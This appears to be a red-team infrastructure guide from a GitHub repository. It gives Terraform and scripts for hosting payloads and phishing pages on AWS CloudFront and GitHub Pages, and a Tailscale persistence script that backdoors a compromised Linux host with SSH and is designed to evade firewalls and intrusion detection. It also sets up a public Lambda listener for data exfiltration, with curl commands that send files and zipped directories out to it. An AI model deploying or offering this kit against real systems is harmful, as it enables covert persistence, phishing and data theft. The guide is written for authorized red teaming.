


# RED TEAM INFRASTRUCTURE


This document contains guidelines on deploying infrastructure that can be useful for red teaming campaigns.  

## Table of Contents
- [Deploying a secure static website via AWS S3 and CloudFront](#deploying-a-secure-static-website-via-aws-s3-and-cloudfront)
- [Deploy a Static Website via GitHub Pages](#deploy-a-static-website-via-github-pages)
- [Maintain persistent access with Tailscale](#maintain-persistent-access-with-tailscale)  
- [Deploy a Lambda function for data exfiltration](#deploy-a-lambda-function-for-data-exfiltration)  


## Deploying a secure static website via AWS S3 and CloudFront  

The following Terraform configuration enables the seamless deployment of a static website to AWS S3 in a single step.   
The only prerequisites are an AWS account and an HTML landing page for the site (*index.hml* file, in the same root as the terraform manifest).  

This setup is particularly useful for red teaming campaigns, serving multiple purposes such as hosting payloads, creating phishing pages or redirects, providing command-and-control (C2) infrastructure, or staging files and logs for exfiltration scenarios.  


The resulting website already comes with TLS termination out of the box and it's hosted on the "*.cloudfront.net*" domain:  
AWS domains are typically not blocked or filtered by corporate firewalls.  


Terraform manifest (*main.tf*):  

```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "random_string" "bucket_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "aws_s3_bucket" "static_site" {
  bucket = "your-bucket-name-here-${random_string.bucket_suffix.result}"
}

resource "aws_s3_object" "terraform_index" {
  bucket = aws_s3_bucket.static_site.id
  key    = "index.html"
  source = "index.html"
  content_type = "text/html"
  etag = filemd5("index.html")
}

resource "aws_s3_bucket_ownership_controls" "example" {
  bucket = aws_s3_bucket.static_site.id

  rule {
    object_ownership = "BucketOwnerPreferred"
  }
}

resource "aws_s3_bucket_website_configuration" "blog" {
  bucket = aws_s3_bucket.static_site.id
  index_document {
    suffix = "index.html"
  }
}

resource "aws_s3_bucket_public_access_block" "public_access" {
  bucket = aws_s3_bucket.static_site.id

  block_public_acls       = true
  ignore_public_acls      = true
  block_public_policy     = true
  restrict_public_buckets = true
}

# S3 bucket policy for CloudFront access
resource "aws_cloudfront_origin_access_control" "cf-s3-oac" {
  name                              = "CloudFront-S3-OAC"
  description                       = "CloudFront S3 OAC"
  origin_access_control_origin_type = "s3"
  signing_behavior                  = "always"
  signing_protocol                  = "sigv4"
}

resource "aws_s3_bucket_policy" "static_site_bucket_policy" {
  bucket = aws_s3_bucket.static_site.id

  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Effect = "Allow"
        Principal = {
          Service = "cloudfront.amazonaws.com"
        }
        Action = "s3:GetObject"
        Resource = "${aws_s3_bucket.static_site.arn}/*"
        Condition = {
          StringEquals = {
            "AWS:SourceArn" = aws_cloudfront_distribution.cf-dist.arn
          }
        }
      }
    ]
  })
}

resource "aws_cloudfront_distribution" "cf-dist" {
  enabled             = true
  default_root_object = "index.html"

  origin {
    domain_name              = aws_s3_bucket.static_site.bucket_regional_domain_name
    origin_id                = aws_s3_bucket.static_site.bucket
    origin_access_control_id = aws_cloudfront_origin_access_control.cf-s3-oac.id
  }

  default_cache_behavior {
    allowed_methods  = ["GET", "HEAD"]
    cached_methods   = ["GET", "HEAD"]
    target_origin_id = aws_s3_bucket.static_site.bucket
    forwarded_values {
      query_string = false

      cookies {
        forward = "none"
      }
    }
    viewer_protocol_policy = "redirect-to-https"
    min_ttl                = 0
    default_ttl            = 3600
    max_ttl                = 86400
  }

  price_class = "PriceClass_All"

  restrictions {
    geo_restriction {
      restriction_type = "whitelist"
      locations        = ["IT"]
    }
  }

  viewer_certificate {
    cloudfront_default_certificate = true
  }

  tags = {
    Name = "cloudfront-distribution"
  }
}

output "website_url" {
  value = "https://${aws_cloudfront_distribution.cf-dist.domain_name}"
}

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  

Example static website:  
  

## Deploy a Static Website via GitHub Pages  

Please note that you can achieve the same result by leveraging other trusted providers, like Github.  

You can deploy a static website on-deman via Github Pages with the following terraform file:  
```hcl
provider "github" {
  token = "<your-github-token-here>" # do not hardcode secrets, manage this via a tfvars file
}

variable "repo_owner" {
  description = "GitHub username or organization name for the repository owner."
  type        = string
}

resource "random_string" "repo_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "github_repository" "static_site_repo" {
  name        = "static-site-${random_string.repo_suffix.result}" # change website name here
  description = "A static website deployed on GitHub Pages"

  visibility = "public"
  auto_init   = true

  pages {
    source {
      branch = "main"
    }
  }
}

resource "github_repository_file" "index_html" {
  repository = github_repository.static_site_repo.name
  file       = "index.html"
  content    = file("index.html")
  branch     = "main"
}

output "github_pages_url" {
  value = "https://${var.repo_owner}.github.io/${github_repository.static_site_repo.name}/"
}

output "notice" {
  value = "The website might take up to a minute to become reachable at the above URL."
}

```  

## Maintain persistent access with Tailscale  

The following is a proof of concept of how to maintain persistent access on a compromised machine (Linux) by leveraging [*Tailscale*](https://github.com/tailscale/tailscale).  


> [!NOTE]  
> The same mechanism can also be used to enable external access to a backdoor device (e.g., a Raspberry Pi) installed within the client's internal network.  

 
> [!WARNING]  
> You will need root privileges on the target machine.  


Tailscale, a mesh VPN built on [*WireGuard*](https://github.com/WireGuard), facilitates secure, encrypted communication between devices by creating a virtual private network (VPN) across the public internet.  
In a red teaming engagement, Tailscale can be installed on a compromised machine within the customer network to maintain persistent access:  
the compromised device becomes part of the attacker's Tailnet, allowing remote connectivity without exposing traffic  
to the customer's firewall or intrusion detection systems, as it leverages point-to-point encryption.  
Tailscale's NAT traversal ensures seamless connections even across complex network topologies, enhancing stealth and persistence in post-exploitation phases.  

First of all it is recommended to create a new, disposable Google (or Github) Account for every red teaming campaign.  
Once you have a google account associated to the campaign you can use that in order to [*create a new Tailscale account*](https://login.tailscale.com/start).    

Skip the introduction and go straight to the [*settings/keys*](https://login.tailscale.com/admin/settings/keys) section in order to create a new auth key:  

  

Save the generated key, you will need it in order to enable access from the compromised machine to your tailnet.  
Now go to the [*Access Controls*](https://login.tailscale.com/admin/acls/file) Tab of the Tailscale Admin panel  
and modify the “ssh” section of the default Access List by setting the “action” property to “accept”:  

  
At this point you are able to connect the compromised machine to your tailnet.  

In order to do that, you will need the following bash script:  
```sh
#!/bin/bash

# Check if an argument (auth key) is provided
if [ -z "$1" ]; then
  echo "Usage: $0 <auth-key>"
  exit 1
fi

AUTH_KEY=$1

# Install Tailscale
sudo curl -fsSL https://tailscale.com/install.sh | sh

# Start Tailscale with the provided auth key and enable SSH
sudo tailscale up --auth-key=$AUTH_KEY --ssh

# Show Tailscale status
sudo tailscale status
```  

Launch the script with the following command:  

```console
sh persistence.sh <YOUR-TAILSCALE-AUTH-KEY-HERE>
```  

If everything went good, you should see an output similar to the following:  
```console
...
...
Installation complete! Log in to start using Tailscale by running:

sudo tailscale up
100.118.41.91   target-machine-name-here          xivivixi936@ linux   -
```  

At this point, you can see the node in the admin console and even connect to it via ssh, directly from your browser:  
  
  

You can also connect to the compromised system from whatever machine that is running Tailscale and it is authenticated to your tailnet.  
In the screenshot below, you can see a windows machine in your own private network that seamlessly connect to the  
compromised machine inside the customer private network (you can use IP address or Tailscale DNS name resolution):  

  


  

## Deploy a Lambda function for data exfiltration  

The following Terraform configuration enables the seamless, on-demand deployment of a disposable, public serverless listener that can be leveraged for data exfiltration during red teaming campaigns.    
The exfiltrated files are then stored on an S3 bucket: you can upload any single file (e.g., text, binary, images, etc.) or full directories (the directory tree will be preserved).  


main.tf:  
```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "aws_iam_role" "lambda_role" {
  name = "lambda_s3_execution_role"
  assume_role_policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Action = "sts:AssumeRole",
        Effect = "Allow",
        Principal = {
          Service = "lambda.amazonaws.com"
        }
      }
    ]
  })
}

resource "aws_iam_policy" "lambda_policy" {
  name = "lambda_s3_access_policy"
  policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Effect = "Allow",
        Action = "s3:PutObject",
        Resource = "arn:aws:s3:::${aws_s3_bucket.exfil_bucket.bucket}/*"
      },
      {
        Effect = "Allow",
        Action = "logs:*",
        Resource = "arn:aws:logs:*:*:*"
      }
    ]
  })
}

resource "aws_iam_role_policy_attachment" "lambda_policy_attach" {
  role       = aws_iam_role.lambda_role.name
  policy_arn = aws_iam_policy.lambda_policy.arn
}

resource "aws_s3_bucket" "exfil_bucket" {
  bucket = "data-exfiltration-bucket-${random_string.suffix.result}"
  
  force_destroy = true

  tags = {
    Name = "DataExfilBucket"
  }
}

resource "random_string" "suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

data "archive_file" "lambda_zip" {
  type        = "zip"
  source_dir  = "${path.module}/lambda_function"
  output_path = "${path.module}/lambda_function_payload.zip"
}

resource "aws_lambda_function" "exfil_lambda" {
  function_name = "DataExfiltrationFunction"
  handler       = "lambda_function.lambda_handler"
  role          = aws_iam_role.lambda_role.arn
  runtime       = "python3.9"

  filename = data.archive_file.lambda_zip.output_path

  environment {
    variables = {
      BUCKET_NAME = aws_s3_bucket.exfil_bucket.bucket
    }
  }

  tags = {
    Name = "DataExfiltrationLambda"
  }
}

resource "aws_lambda_function_url" "lambda_url" {
  function_name       = aws_lambda_function.exfil_lambda.function_name
  authorization_type  = "NONE"
}

resource "aws_lambda_permission" "public_lambda_url_permission" {
  statement_id  = "AllowPublicAccess"
  action        = "lambda:InvokeFunctionUrl"
  function_name = aws_lambda_function.exfil_lambda.function_name
  principal     = "*"
  function_url_auth_type = "NONE"
}

output "lambda_function_url" {
  value = aws_lambda_function_url.lambda_url.function_url
}
```  

Lambda function code (python):
```python
import boto3
import os
import time
import zipfile
import io
import base64

s3 = boto3.client('s3')
bucket_name = os.environ['BUCKET_NAME']

def lambda_handler(event, context):
    try:
        # If the body is base64 encoded, decode it
        if event.get("isBase64Encoded", False):
            file_content = base64.b64decode(event['body'])
        else:
            file_content = event['body'].encode('utf-8')

        # Get the filename from headers (or set a default)
        filename = event['headers'].get('filename', f"exfiltrated-file-{time.strftime('%Y-%m-%d-%H-%M-%S', time.gmtime())}")

        # Check if the file is a zip (assume directory if it is a zip file)
        if filename.endswith(".zip"):
            # Treat it as a compressed directory
            handle_zip(file_content, filename)
        else:
            # It's a single file, upload directly
            upload_file_to_s3(file_content, filename)

        return {
            'statusCode': 200,
            'body': f"File {filename} stored successfully"
        }

    except Exception as e:
        return {
            'statusCode': 500,
            'body': f"Error: {str(e)}"
        }

def upload_file_to_s3(file_content, filename):
    """Helper function to upload a file to S3"""
    s3.put_object(Bucket=bucket_name, Key=filename, Body=file_content)

def handle_zip(file_content, zip_filename):
    """Helper function to handle a zip file by extracting and uploading its contents"""
    with io.BytesIO(file_content) as zip_buffer:
        with zipfile.ZipFile(zip_buffer, 'r') as zip_ref:
            for file_info in zip_ref.infolist():
                # Skip directories, only process files
                if not file_info.is_dir():
                    # Extract the file from the zip
                    with zip_ref.open(file_info) as extracted_file:
                        file_data = extracted_file.read()
                        # Upload each file to S3 with its full path
                        upload_file_to_s3(file_data, file_info.filename)

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  
Once the deployment is complete, terraform will output the public lambda url, for example:  
```sh
lambda_function_url = "https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws/"
```  
Now you can proceede to exfiltrate files and directories.
Example for single file:  
```sh
curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_single_file.txt" --data-binary @test_single_file.txt
```  

Example for a directory:
```sh
zip -r test_folder.zip test_folder \
&& curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_folder.zip" --data-binary @test_folder.zip
```  

You can later retrieve all the exfiltrated files from the S3 bucket:  
  


